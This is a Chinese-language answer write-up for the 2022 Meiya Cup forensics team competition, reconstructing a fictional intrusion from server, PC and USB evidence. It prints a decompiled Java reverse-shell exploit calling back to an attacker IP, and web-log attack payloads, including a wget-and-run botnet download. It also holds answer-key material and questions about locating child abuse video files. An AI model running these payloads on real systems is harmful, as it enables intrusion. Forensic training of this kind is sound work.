# 2022美亚杯团体赛答案

## 案情简介

2022 年 10 月，警方收到“AGC 集团”报案，表示该公司网络的电邮系统有可疑连接及流量。经过调查后，警方相信事件与本地一个 IP 地址有关，于是拘捕了一名男子朗尼（Rooney），并在他的家中搜到一些电脑，网络设备和手机。2022 年 10 月下旬，两名巡警在街上截查一名男子，名叫王景浩（阿浩 KingHo），在他的背包中找到了一些从网上下载的制作油漆弹教学材料，阿浩曾作出反抗但最后被制服。经调查后，警员发现阿浩计划于某日向某人投掷油漆弹，警员随后将他拘捕并于他家中扣押了一批电脑、手机。深入调查后发现阿浩亦与“AGC 集团”网络被入侵事件有关。警方的电子数据取证小组在现场作出初步了调查，并对涉案装置进行了电子数据取证。请你根据警方的资料，协助将事件经过还原。

## 1 在朗尼手机于 2022 年 9 月 30 日的 WhatsApp 对话里, 有一段音讯提到王景浩会给朗尼现金多少作为租用 VPN 的租金?

> HKD 3000

呃呃, 写到这题属实绷不住了. 倒放是吧.
在线可以用这个[音频倒放-一键音频倒放，可自定义输出参数-即时工具 (67tool.com)](https://www.67tool.com/audio/reverse)

## 2 就AGC集团网络的流媒体服务器, 有多少个本地用户曾经成功登录过?

> 3

只有 3 个用户有登陆记录



## 3 就AGC集团网络的流媒体服务器, 有多少个本地用户曾经成功用 ssh 登录过?

> 3


登陆终端为 pts/x 的应为 ssh 登录.

## 4 就上述的本地用户, 成功通过 ssh 登录过该流媒体服务器多少次? 

> 12

见上题.

## 5 试找找记录失败的登录尝试信息. 有以下哪一个名称曾尝试用 `ssh:notty` 登录该流媒体服务器?

> A:iamhacker
> B:hacking
> C:hack
> D:hacker
> E:以上皆非

需要用到检材中提供的 `/var/log/` 的备份, 镜像中的日志已经被删的差不多了. 在 auth.log* 中搜索 Failed Password 即可找到.


## 6 就该流媒体服务器的本地用户, 有一个用户名是 S 开头的, 试找找该用户的姓氏?

> Li

~~不太确定是什么意思. 难道是找到 Summy 这个用户的拥有者的真实姓氏?~~

好吧, 应该就是找到 Summuy 的真实姓氏. 在 Mysql 的 WordPress 数据库里可以找到, WordPress 中设置的用户全名为 Summy Li. ~~但是怎么确定这是 "真实" 姓氏呢?~~



## 7 该流媒体服务器是有使用 Docker 容器的，当中包含以下哪个 Docker 镜像?

> A:apache2
> B:ubuntu
> C:centos
> D:nginx
> E:hello-world
> F:以上皆非


## 8 就上述的 Docker 镜像, 哪一个镜像在系统上运行中?

> A:apache2
> B:ubuntu
> C:centos
> D:nginx
> E:hello-world
> F:以上皆非



## 9 该流媒体服务器是使用 WordPress 建站的, 就比特币 标题, 有以下的电子邮箱地址曾经留有评论?

> A:`cn.wordpress.org`
> B:`root58462@mail.qq.com`
> C:`hi456@163.com`
> D:`root@163.com`
> E:`user1@localhost.net`
> F:以上皆非

仿真并重置数据库密码, 或着用火眼里的数据库分析, 总之先打开数据库. 在火眼的数据库分析里导出为 csv 格式也可以, 但是不知道为什么, 这样导出的 csv 会出现奇怪的分割.
在数据库的 WordPress 库里, 与评论相关的是 `wp_comments` 表. 其中 `comment_post_ID` 对应的是评论所在的文章的 ID.



在 `wp_posts` 表中可以看到 `post_title` 字段对应的是标题. 比特币 这篇文章的 ID 为 5, 与 `wp_comments` 表对照得到邮箱.



## 10 该流媒体服务器里其中一个本地用户是有使用 calendar 日历工具的, 日历内曾经提及以下哪个网站?

> A:`https://weibo.com`
> B:`http://www.baidu.com`
> C:`https://www.douyin.com`
> D:`https://youku.com`
> E:`https://www.binance.com`
> F:以上皆非

~~仿真起来挨个用户看 calendar 里面的日程.~~

没接触过 calendar, 稍微搜了一下, 也只搜到它是 Gnome 的一个应用.  不过既然可以为不同用户保存各自的日程, 那数据应该是保存在 `/home` 目录下了. 搜索一下, 发现 user 和 mediauser 的用户文件夹里各有一个 calendar 目录, 打开之后看到 `calendar.ics` 文件.


在 `/home/user/.local/share/evolution/calendar/system/calendar.ics` 里找到了网址.


## 11 该流媒体服务器里是有使用磁盘阵列的,  该设备是使用那一个 RAID 级别?

> A:RAID 0
> B:RAID z2
> C:RAID z3
> D:RAID 10
> E:RAID 5
> F:以上皆非

本来以为这里需要重组 Raid, 但是后来发现怎么重组都不行. 直到我看到了容器里的 pdf 文档里的附件图片. 根本不用 Raid 重组.


只需要想办法将 sdb & sdc & sdd & sde 四块盘想办法挂在用 sda 仿真起来的虚拟机上就行了. 最开始我的做法是把 e01 转成 vmdk, 后来发现只需要在火眼仿真创建虚拟机的时候把所有硬盘选上就行, 第一块硬盘会被当成系统盘, 其他的会按照顺序挂在 `/dev/sd*`. 

可以根据 `zpool status` 的回显知道这是由 2 块硬盘组成带镜像的 Raid0 (Stripe).

> ZPool Types
> - ZPool Stripe group: `zpool create vol0 /dev/sda /dev/sdb /dev/sdc`
> - ZPool mirror group: `zpool create vol0 mirror /dev/sda /dev/sdb`
> - ZPool raidz group: `zpool create vol0 raidz /dev/sda /dev/sdb /dev/sdc`
> - ZPool raidz2 set: `zpool create vol0 raidz2 /dev/sdb /dev/sdc1 /dev/sdd /dev/sde`

如果有些怀疑的话, 可以通过 `zpool history` 查看创建时的指令.


关于 zpool 的使用方法: [ZFS/ZPool - Ubuntu Wiki](https://wiki.ubuntu.com/ZFS/ZPool)

## 12 该基本镜像存储池里储存了一些视频档案, 请找出一段儿童色情影片, 该档案的最后修改时间是什么月份?

> 9

呃呃, 再次绷不住.




## 13 承上题, 拥有该段儿童色情影片的用户名称是什么?

> root


## 14 就 AGC 集团网络的流媒体服务器, 曾经有用户搜索过有关于儿童色情影片的资料而得到搜索结果, 该用户所输入的网址是什么? (Unsolved)

流媒体服务器使用的服务端程序是 [Rygel](https://wiki.gnome.org/Projects/Rygel). 配置文件位于 `/etc/rygel.conf ` 或 `$HOME/.config/rygel.conf` 题目中两处位置均存在配置文件, 使用的应该是前者. 

配置文件中 log 级别使用了 4 (默认值), 所以在 log 中可以看到详细的访问记录. 但是 rygel 只会在终端上打印 log, 而不将 log 存储到文件, 因此无法直接查看 rygel 的 log.  但还可以查看 journalctl 存储的日志.

关于 journalctl: [How to Use journalctl Command to Analyze Logs in Linux](https://linuxhandbook.com/journalctl-command/)

仿真服务器之后在命令函中执行 `sudo journalctl --until "2022-11-05 23:59:59" | grep "rygel" > /home/mediauser/rygel.log` 导出与 rygel 相关的 log. 

在 log 中搜索前两题中得到的文件名称的 url 编码. 可以找到该文件被 rygel 访问到的记录:


但是在我看过 rygel 的源码之后, 我认为 rygel 会在服务器上起一个 http 服务, 用户可以通过 http 请求远程访问流媒体, 也可以远程调用 rygel 的搜索组件. 但是我根据源码中搜索组件和 http 服务的源码中的 log 格式在 journal 中搜索之后没找到相应的内容.

## 15 该基本镜像存储池有一个快照, 快照的名称是什么? 

> media0/mediastorage@version1

见第 111 题.

## 16 就上述所找到的基本镜像存储池快照, 它储存了多少个档案?

> 24

创建一个新的快照并与 `media0/mediastorage@version1` 对比, 现在比之前多了 6 个文件, 当前 30 个文件. 因此 `media0/mediastorage@version1` 快照中有 24 个文件.



## 17. 王景浩的USB记忆棒里有一个‘Data’文件夹（Folder），它存有哪一种的密钥文件

A:pem;   B:cer;   C:crt;   D:key;   E:以上皆非

首先查看文件内容，其中有 P1 ~ P4 一共四个密钥文件。


然后查看文件夹中有rtf文档，显示他在学习有关加密方面的东西，



> python > 3.9 & pip install cryptography

那么先把python环境和相关依赖库弄好，然后根据Notes文件夹中的教程就可明白整体的流程：


生成秘钥源代码如下：

```python
import rsa

public_key, priv_key = rsa.newkeys(1024)

# 保存公私钥
def load_keys(filename):
    with open(filename, 'wb') as f:
        if filename  'P1':
            f.write(public_key.save_pkcs1('PEM'))
        elif filename  'P2':
            f.write(priv_key.save_pkcs1('PEM'))
          
load_keys('P2')
load_keys('P1')
```

那么根据上面的处理，就能明白P1~P4 中必然有一组可用的公私钥，就查看文件内容，找到private 和 public 关键字的两组文件，然后依次加密解密找到匹配的一组，也就是P1和P2

且根据这个代码可以看到关键词pem，所以这个密钥文件是用pem保存的，所以这个题选**A**。

## 18. 承上题，‘Data’文件夹里有一个被加密了的档案，它是被哪一种类型的密钥文件？

A:Symmetric;   B:PGP;   C:Twofish;    D:RSA;    E:Triple

加密源代码如下：

```python
from cryptography.fernet import Fernet
import rsa

# 生成对称加密秘钥
key = Fernet.generate_key()
cipher = Fernet(key)

# 读取rsa公钥 对key进行加密
with open('P2','rb') as pk:
    pub_key = rsa.PublicKey.load_pkcs1(pk.read())
    encrypt_symmtric_key = rsa.encrypt(key,pub_key)
# 用对称加密方法加密文件
with open('minecraft.sql','rb') as wf:
    encrypt_word = cipher.encrypt(wf.read())

#将加密后的key和文件保存到一个文件夹中
with open('minecraft.exe','wb') as ef:
    ef.write(encrypt_symmtric_key)
    ef.write(encrypt_word)
```

其流程如下：

* 首先用 rsa 生成一对公私钥（公钥加密，私钥解密）
* 然后用fernet 生成一个对称加密的key
* 用 key 对文档内容进行加密，然后用公钥对 key加密
* 最后把加密好的key和文档内容放入一个文档中

根据上面的分析，可以知道文档用了两种加密方法，所以选Symmetric（对称加密）和RSA，答案为：**AD**

## 19. 承上题，被加密的档案属于哪一个类型（File type）

A:exe;  B:ods;  C:rtf;  D:sql;  E:以上皆非

解密源代码为：

```python
from cryptography.fernet import Fernet
import rsa

with open('P1','rb') as h:
    K = rsa.PrivateKey.load_pkcs1(h.read())
  
with open('minecraft.exe','rb') as ef:
    encrypt_key = ef.read(128)
    encrypt_word = ef.read()

decrypted_key = rsa.decrypt(encrypt_key, K)
cipher = Fernet(decrypted_key)
decrypted_word = cipher.decrypt(encrypt_word)

with open('minecraft.sql','wb') as f:
    f.write(decrypted_word)

with open('minecraft.key','wb') as f:
    f.write(decrypted_key)
```

解密后的文件预览为：


由上知解密的整体流程是：

1. 读取私钥K
2. 读取加密文件minecraft.exe文件的前128位作为v2 ， 读取剩下的部分作为v3
3. 用私钥K解密v2，得到cihper
4. 然后用cihper解密v3，得到文件内容
5. 然后打开观察，解密文件为SQL脚本

所以这题选择**D**

## 20. 尝试将档案解密，找出以下哪一个名字出现在被加密的档案里

A:Armand To;   B:Adam Smasher;    C:Beverly Kot;   D:Huma Chan;   E:以上皆非

打开解密文件，直接查找以上四个名字，答案为**AC**

<!-- 亚达重锤！让我杀你一万遍！也！不！够！ -->

## 21 HTTP Header

Wireshark, 启动!

HTTP 协议, 过滤!


`155.137.195.111:8080`, 而且没有 HTTPS

## 22 HTTP POST Form



## 23 Exploit!

从 122 题的 POST 请求中很容易发现, 攻击者利用了 Java 的 JNDI, 让服务器从攻击者处获得攻击程序并执行. 从 POST 请求开始的网络活动如下.



配合选项可知, 首先服务器用 46858 端口与 `61.238.217.108:1389` 建立 TCP 连接, 之后下载了 `Exploit.class` 文件, `content-type`, 扩展名以及文件内容都说明这是一个 Java 可执行文件, 在之后 (编号 120 的包) 服务器从 49264 端口发送 SYN 请求, 尝试连接到 `61.238.217.108:9001`.

另外, 我们可以导出这个攻击程序, 然后反编译一下.

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {
    public Exploit() throws Exception {
        String var1 = "61.238.217.108";
        short var2 = 9001;
        String var3 = "/bin/sh";
        Process var4 = (new ProcessBuilder(new String[]{var3})).redirectErrorStream(true).start();
        Socket var5 = new Socket(var1, var2);
        InputStream var6 = var4.getInputStream();
        InputStream var7 = var4.getErrorStream();
        InputStream var8 = var5.getInputStream();
        OutputStream var9 = var4.getOutputStream();
        OutputStream var10 = var5.getOutputStream();

        while(!var5.isClosed()) {
            while(var6.available() > 0) {
                var10.write(var6.read());
            }

            while(var7.available() > 0) {
                var10.write(var7.read());
            }

            while(var8.available() > 0) {
                var9.write(var8.read());
            }

            var10.flush();
            var9.flush();
            Thread.sleep(50L);

            try {
                var4.exitValue();
                break;
            } catch (Exception var12) {
            }
        }

        var4.destroy();
        var5.close();
    }
}
```

综上, D √

## 24 Reverse shell port

从上可知, 攻击者通过 9001 端口向服务器发送指令

25 Track the stram down

从 126 号包开始, 就是攻击者利用反弹 shell 和服务器交互的过程了. 利用 Wireshark 的追踪流功能, 得到交互过程如下.


所以 ACE √

## 26 What did he do

从上文的记录可得

## 27 Rename

观察记录

```bash
ls
cGhvdG9zT0Zyb2NreQ
mv cGhvdG9zT0Zyb2NreQ readme.pdf
```

## 28 & 29 What did he transferred

通过记录可知, 王通过 FTP 发送了一个 PDF 文件, 同样追踪流并导出, 可得该 PDF 文件

PDF 文件的信息保存在文件中, 浏览器打开查看属性并计算 SHA-256 即可.



## 30 通过取证调查结果迸行分析 (包括但不限于以上问题及情节)，以下哪项关于王景浩的推断是正确的?

综合上述分析可知ACE

## 31 AGC-CS 计算机里最新的操作系统版本号码是什么?

> A:10240
> B:15063
> C:17763
> D:19041
> E:19042

基本信息 -> 操作系统信息 中可以看到.
当前 Build 版本号为 19042.

## 32 AGC-CS 计算机里的 Acrobat DC 软件的安装时间是? 

> A:2022-09-28 19:01:40
> B:2022-09-28 07:18:33
> C:2022-08-30 19:01:40
> D:2022-08-30 07:18:33

**比赛时省时间的做法**

基本信息 -> 安装软件 中可以看到安装日期为 20220928 和安装路径 `C:\Program FIles\Adobe\`.
查看程序文件的修改时间为 2022-09-28 19:0x:xx.

**正经做法**

在时间线中可以过滤 Acrobat 再根据过滤到的时间找到安装时生成的锁文件, 由此判断安装时间.



## 33 AGC-CS 计算机里的用户 Carson 连接了一个网络磁盘机, 在下列哪一个档案有相关资料?

> A:`\Users\Carson\NTUSER.DAT`
> B:`\Users\admin\NTUSER.DAT`
> C:`\Windows\System32\config\SYSTEM`
> D:`\Windows\System32\config\SOFTWARE`
> E:`\Windows\System32\config\SECURITY`

题目翻译: 网络磁盘机 -> 网络共享磁盘.

在 基本信息 -> 网络共享 中可以看到, 设置好的共享磁盘, 然而这里火眼没有提供跳转源文件的功能.

其实这算一个 Windows 的基本知识了, Windows 中的用户配置是存储在 `%userprofile%\NTUSER.DAT` 中的, 这包括网络共享设置. 

> 在修改用户配置时, Windows 通过首先将该信息存储到注册表的 `HKEY_CURRENT_USER` 中. 然后，当用户注销时, Windows 会将该信息保存到 `NTUSER.DAT` 文件中. 下次登录时, Windows 会将 `NTUSER.DAT` 加载到内存中,并将所有用户配置加载到注册表中.

如果不知道这一点的话, 也可以在 ShellBags 中找到.

> ShellBags 是一组用来记录文件夹（包括挂载网络驱动器文件夹和挂载设备的文件夹）的名称、大小、图标、视图、位置的注册表项. 每次对文件夹的操作, ShellBags 的信息都会更新, 而且包含时间戳信息. 即使删除文件夹后, ShellBags 仍然会保留文件夹的信息. 


## 34 承上题, 用户 Carson 连接的网络磁盘机的 IP 地址是什么?

> A:`\\192.168.182.134\`
> B:`\\192.168.182.134\photo`
> C:`\\192.168.182.134\share`
> D:`\\192.168.182.134\AGC`
> E:`\\192.168.182.134\AGC photo`

见第 3 题.

## 35 分析计算机里的电邮数据, 当中包含嫌疑人王景浩可能的居住地址, 请回答他住址的楼层

> 45

过滤一下发件人 King Ho Wong, 可以在邮件里找到收货地址.




## 36 承上题, 王景浩使用的信用卡号码最后四位数字是?

> 6717

邮件里有一封带有图片附件的. 但是火眼自带的文件预览有点问题, 不能直接打开. 可以导出 eml 文件, 然后把附件部分的 base64 取出来解码一下, 或者直接用 outlook 打开. 如果仿真了这个镜像可以直接打开虚拟机的 outlook 看.


## 37 AGC-CS 计算机用户 Carson 曾经收到一个电邮并通过里面的连接下载了一个可疑的 Word 文件, 那个的档案的档案名是什么? 

> KEFmuon.docx

还是在这一系列的邮件里, 王景浩发给客服一个谷歌文档的连接, 但是打开访问时已经被谷歌封禁了.


但是接下来就出现了很离谱的事情:



虽然有谷歌文档的访问历史记录, 但是这直接报错了, 也就是说在出题的时候这个文件已经被 ban 了. 下载记录里面页面也没有从谷歌文档下载文档的记录. 至今我们仍未知道 `C:\Carson\Downloads\KEFmuon.docx` 是怎么出现的. 但它确实是这一题要找的东西(参考下题).

## 38 承上题, 分析该 Word 文件, 它的可能用途是?

> A:访问一个网站
> B:记录键盘操作
> C:把档案加密
> D:改变桌面壁纸
> E:关闭计算机

解压 `KEFmoun.docx`, 发现并没有宏.
在虚拟机里打开一下这个 docx 会发现一直卡在"正在与服务器联系以获取信息", 猜测是文档中联网下载或者执行了什么东西.



解压文档, 看了一眼 `[Content_Types].xml` 突然想起来 office 文档可以通过编辑 OpenXML 给文档组件建立外部资源联系, 相关信息保存在 rels 文件里. 然后在 `\word\_rels\document.xml.rels` 里找到了指向 `http://61.238.217.108:37374/exploit.html` 的外部联系.


## 39 AGC-CS计算机里有一个名为 admin 的用户, 它是在何时被建立的?

> A:2022-09-28
> B:2022-09-29
> C:2022-09-30
> D:2022-10-01
> E:以上皆非


基本信息 -> 用户列表 中可以看到.

## 40 黑客第一次采用用户 admin 通过远程桌面协议登录了AGC-CS 计算机的时间是?

> 2022-09-29 20:41:02

由于上次关机时 Windows 下载了自动更新, 以前的日志都保存在 `C:\Windows.old\Winodws\System32\Logs` 目录下. 在其中找到关于 RDP 的 `Microsoft-Windows-TerminalServices-RemoteConnectionManager%4*.evtx` 日志文件. 日志内容不太全, 但是还是可以在 `Microsoft-Windows-TerminalServices-RemoteConnectionManager%4Admin.evtx` 中看到 RDP 连接建立时的信息(事件 ID 1158).接下来的一条事件 ID 为 20521 代表用户登陆成功并已加载用户配置. 因此登陆时间为 2022-09-29 20:41:02.


或者查看 `Security.evtx`, 过滤事件 ID: 4624 (Logon), 并查找 admin 账户的 SID: `S-1-5-21-1232862353-4160025528-3866207127-1002`. 可以找到在 2022-09-29 20:41:02 时 
 admin 第一次登录, 并且为远程登录.


## 41 黑客入侵AGC-CS计算机后下载了一个扫描端口的软件, 这软件的真正名称是?

> NimScan

在 `C:\Users\Carson\Downloads\` 目录里有不少可执行文件.

**离谱一点但省时间的做法**: 众所周知, 不少的黑客工具都会被一些杀毒软件报毒为 HackTool, 扫描器也不例外.


**正常一点的做法**: 看到 `svchost.exe` 出现在了不该出现的地方. 然后注意到它没有微软的数字签名. 放进虚拟机运行一下, 发现是 NimScan.

## 42 AGC-CS 计算机里的一个跳转列表显示了用户 admin 曾经采用记事本打开了一个文字档案, 这个文字档的 SHA-256哈希值是什么?

> 320A98F6519748D16B8870EF4D8A606D656C5A09CF2F660AA35EBF6495824CB1

在快捷方式里可以找到 ip.txt 的快捷方式, 但源文件已经被删除了.



最后在王景浩的 Mac 电脑里找到了, 位于 `/Users/wongkingho/Desktop/遊戲/Screen Shot/ip.txt`. 大概是王景浩将这个文件传到自己的电脑上之后将源文件删除了吧.

## 43 承上题, 黑客采用上述软件取得一些计算机的 IP 地址及媒体访问控制地址并存到一个名为 ip.txt 的档案. 当中 192.168.182.130 计算机的 MAC 地址是什么?

> 90-61-ae-c0-90-45

参见上题.

## 44 黑客除了通过 RDP 外, 还采用什么软件远端控制  AGC-CS 计算机?

> A:VNC
> B:Teamviewer
> C:Anydesk
> D:Splashtop Business Access
> E:RemotePC

自动分析可以发现电脑上有 Team Viewer, 而且有连接记录.

# ACG Server

> 45~56

这一部分首先需要对 ACG_Server 检材中的 Raid 进行重组. 使用 R-Studio 和 取证大师都不能很好地重组, 最终发现 UFS Explorer Professional Recovery  可以很方便地自动重组 Raid.

我的做法是:
- 使用 FTK Imager 将三个硬盘镜像只读挂载.
- 启动 UFS 自动重组.
- 导出主分区的镜像和 VM 的文件.

UFS 导出的镜像扩展名虽然是 dsk, 但实际上就是 raw 格式镜像.
导出的 VM 文件是 qemu 的 qcow2 + raw 格式镜像.
从 qcow2 文件中可以看出, 硬盘数据存储在 raw 格式镜像中, qcow2 文件只负责维护虚拟硬盘的基本信息.



因此, 只需要直接将 raw 格式镜像导入取证软件分析即可. 以及, 如果查看了三个 raw 镜像的话, 就会发现只有 `vm-111-disk-1.raw` 中存储了数据, 其余两个镜像内除了文件头之外什么都没有. 

此外, 火眼仿真也支持直接仿真 qcow2 的虚拟磁盘.

## 45 AGC_Server 里 LVM 的 VG pve 共有多少PE?

> 171252

Raid 重组之后, 可以在整个盘的开头部分看到 LVM2 容器的信息.


```json
pve {
    id = "cM893Z-px8A-2Cxq-yq89-v9yO-TYIx-pCcAhQ"
    seqno = 8
    format = "lvm2"
    status = ["RESIZEABLE", "READ", "WRITE"]
    flags = []
    extent_size = 8192
    max_lv = 0
    max_pv = 0
    metadata_copies = 0
    
    physical_volumes {
    
        pv0 {
            id = "7AjK3x-yB97-6aZB-v2i4-3pzv-vRSS-kPFSv4"
            device = "/dev/sda3"
            
            status = ["ALLOCATABLE"]
            flags = []
            dev_size = 467811471
            pe_start = 2048
            pe_count = 57105
        }
        
        pv1 {
            id = "7Y3DlK-tUxD-g6k0-E3F2-Sd0o-EfoG-odpw2T"
            device = "/dev/md0"
            
            status = ["ALLOCATABLE"]
            flags = []
            dev_size = 935094272
            pe_start = 2048
            pe_count = 114147
        }
    
    [strip]
    }
}
```

可以看到 pve 在设备上有两个挂载点, PE 数量分别是 57105 和 114147, 合计 171252.

## 46 AGC_Server 里的 Proxmox 虚拟化环境有哪一个用户?

> A:root
>
> B:VM_admin
>
> C:sysadmin
>
> D:acl
>
> E:tss

有点白给, 但凡搜一下 Proxmox 就应该知道它是基于 Debian 的系统; 既然是 Linux 就应该有 root 用户.



## 47 检视 Proxmox 里的 VM, 编号 111 的主机名是什么?

> agc_server1


## 48 分析 VM 编号 111 的网页服务器日志, 当中记录了黑客曾向该服务器发出多少次网络攻击？(存疑)

> 437

日志位于 `/var/log/nginx/`.

这道题多少有点逆天. 纯手动看 log, 识别攻击方式, 还要统计攻击次数. 还有一些模棱两可的东西, 比如, 获取服务器的信息算不算攻击 & 一些对登录页面发送 post 请求的在不知道请求体内容的情况下如何判断是不是攻击 & 扫描器的 HEAD/OPTION/CONNECT 请求等. 姑且把这些都算做攻击了. 因此, 这道题答案不一定正确.

整个看下来, 服务器受到了这些攻击:

```haskell
45.227.254.51 - - [07/Oct/2022:04:30:25 +0800] "\x03\x00\x00,'\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Domain" 400 166 "-" "-" [RCE]
152.89.196.211 - - [07/Oct/2022:07:51:27 +0800] "POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1" 404 197 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" [RCE]
152.89.196.211 - - [07/Oct/2022:08:00:48 +0800] "GET /solr/admin/info/system?wt=json HTTP/1.1" 404 197 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" [Solr远程命令执行漏洞信息收集]
152.89.196.211 - - [07/Oct/2022:08:12:55 +0800] "GET /index.php?s=/Index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1" 404 197 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" [ThinkPHP RCE]
152.89.196.211 - - [07/Oct/2022:08:20:09 +0800] "GET /?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php> HTTP/1.1" 403 196 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" [ThinkCMF任意文件包含漏洞]
152.89.196.211 - - [07/Oct/2022:08:33:10 +0800] "GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" 403 196 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" [Xdebug]
152.89.196.211 - - [07/Oct/2022:08:53:48 +0800] "GET /console/ HTTP/1.1" 404 197 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" [不知道是啥, 但应该是Fuzz]
152.89.196.211 - - [07/Oct/2022:09:08:24 +0800] "GET /_ignition/execute-solution HTTP/1.1" 404 197 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" [Laravel Debug mode远程代码执行漏洞]
45.61.185.76 - - [07/Oct/2022:10:28:42 +0800] "POST /boaform/admin/formLogin HTTP/1.1" 404 134 "http://218.255.242.114:80/admin/login.asp" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0" [或许是sql注入]
45.61.185.198 - - [07/Oct/2022:10:53:08 +0800] "GET /config/getuser?index=0 HTTP/1.1" 404 134 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0" [D-Link DCS信息泄露]
223.99.170.39 - - [06/Oct/2022:20:27:06 +0800] "GET /shell?cd+/tmp;rm+-rf+*;wget+ neverwinwlaq.xyz/jaws;sh+/tmp/jaws HTTP/1.1" 404 162 "-" "Hello, world" [获取僵尸网络载荷]
192.241.221.12 - - [06/Oct/2022:23:21:42 +0800] "MGLNDD_218.255.242.114_80" 400 166 "-" "-" [扫描器Base Request]
```

最后统计了一下:

| log文件       | 攻击次数 |
| ------------- | -------- |
| access.log    | 18       |
| access.log.1  | 6        |
| access.log.2  | 1        |
| access.log.3  | 22       |
| access.log.4  | 39       |
| access.log.5  | 159      |
| access.log.6  | 60       |
| access.log.7  | 5        |
| access.log.8  | 30       |
| access.log.9  | 51       |
| access.log.10 | 46       |

## 49 哪一个IP地址尝试登录 VM 编号 111 失败次数最多?

> A:38.242.130.207
>
> B:218.92.0.206
>
> C:43.142.93.22
>
> D:121.202.141.105
>
> E:61.238.217.108

登录失败记录有点多, 把所有记录导出为 csv 文件.
用 python 统计一下 ip 出现次数:

```python
import csv

file = open("./page_1.csv", "r", encoding="U8")
content = csv.reader(file)
content_list = list(content)
ip = dict()
for i in content_list[1:]:
    ip_addr = i[-1]
    if not ip.get(ip_addr):
        ip[ip_addr] = 1
    else:
        ip[ip_addr] += 1
print(ip)
```

选项中只有 `61.238.217.108` 有两次登陆失败记录.

## 50 黑客在入侵 VM 编号 111 后，打算涂改 AGC 公司的网页, 黑客在传送相关档案时所用的端口是什么?

> 22

使用 curl 获取了一个 ip.
使用 wget 下载了 nginx 的源码.
使用 scp 传输了文件夹下的全部内容.

因此, 黑客使用的应是 scp, 默认端口为 22.

## 51 根据 VM 编号 111 里网页服务器的设定, 访客可从下列哪个网页地址访问这个服务器?

> A:`localhost`
>
> B:`www.ag.com.shop`
>
> C:`www.agcom.shop`
>
> D:`agcom.shop`
>
> E:`www.agcom.com`

nginx 配置位于 `/etc/nginx/conf.d/agcom.shop.conf`.

## 52 黑客曾入侵 VM 编号 111 里的电邮系统 Xeams, 他登录的时间是?

> 1664381407.000858

Xeams 的 log 位于 `/opt/Xeams/logs/`.
在 `successfulLogins.log` 中搜索黑客的 ip 地址 `61.238.217.108`, 可以找到登录记录.



转换成时间戳就是 `1664381407.000858`.

## 53 黑客在入侵后盗用 AGC 员工电邮户口及冒充 AGC 员工回复了电邮给客户, 发出这封电邮的操作系统及电邮软件是什么?

> A:Mac OS X 10.15 rv:102.0, Thunderbird/102.3.0
>
> B:Mac OS X 10.15 rv:102.0, Thunderbird/91.13.1
>
> C:Mac OS X 10.15 rv:91.0, Thunderbird/91.13.1
>
> D:Mac OS X 10.11 rv:60.0, Thunderbird/60.9.1
>
> E:Windows 10 Pro, Outlook 2016

火眼可以找到 eml 文件, 其中发件日期在 10 月 6 日之后的基本是黑客发出去的.


## 54 黑客在 Proxmox 里留下了一个被加密的程序, 在解密后它的 SHA-256 哈希值是什么?

> A:C89D7A... ...8C4E76
>
> B:C7141F... ...64BF65
>
> C:E9433E... ...1A5134
>
> D:45CE1C… ...79BD4A
>
> E:0ACAA5… ...AB7ECE

这道题的坑:
1. 不是在 Proxmox 中, 而是在虚拟机里.
2. 不是加密, 而是 base64 编码.
3. 不是程序, 而是 python 脚本.
4. 原始文件使用的是 Unix 换行符(`\r\n`).

可以在 `\srv\samba\share\AGC photo\` 目录下看到很多图片 & 一个 txt 文档 & 三个内容是 base64 编码的文件. txt 里面是勒索信息.


在 shell 历史记录中可以看到曾经对文件的操作. 按照原样处理即可. 如果在 Windows 上操作要注意换行符的问题. 可以在 python 中直接对 base64 解码后的字节串计算 SHA-256.

## 55 承上题, 分析程序代码, 上述程序的档案名应是什么?

> ransomware-ver-finalv2.py

行吧, 你说是程序就是程序吧.

## 56 于虚拟机 VM 编号 111 里的档案 `\srv\samba\share\AGC photo\DSC01139.JPG` , 照片中出现的街道名称是?

> A:河背街
>
> B:沙咀道
>
> C:众安街
>
> D:香车街
>
> E:川龙街

看代码, Fernet 加密的密钥位于 `/tmp/thekey.key` 中. 脚本里贴心的给了解密脚本.



解密出的图片:



## 57. 王景浩的计算机使用什么文件系统 (File System) ? 

> HFS+文件系统是Apple电脑中默认的最常见的文件系统。HFS+来源于UNIX，但是又不用于UNIX，它增加了许多新的特性，同时也有许多不同于Windows、UNIX等系统的概念。HFS+是苹果公司为替代他们的分层文件系统（HFS）而开发的一种文件系统。它被用在macintosh电脑（或者其他运行Mac OS的电脑）上。它也是iPod上使用的其中一种格式。HFS+也被称为Mac OS Extended（或误称为“HFS Extended”)。在开发过程中，苹果公司也把这个文件系统的代号命名为“Sequoia”
>
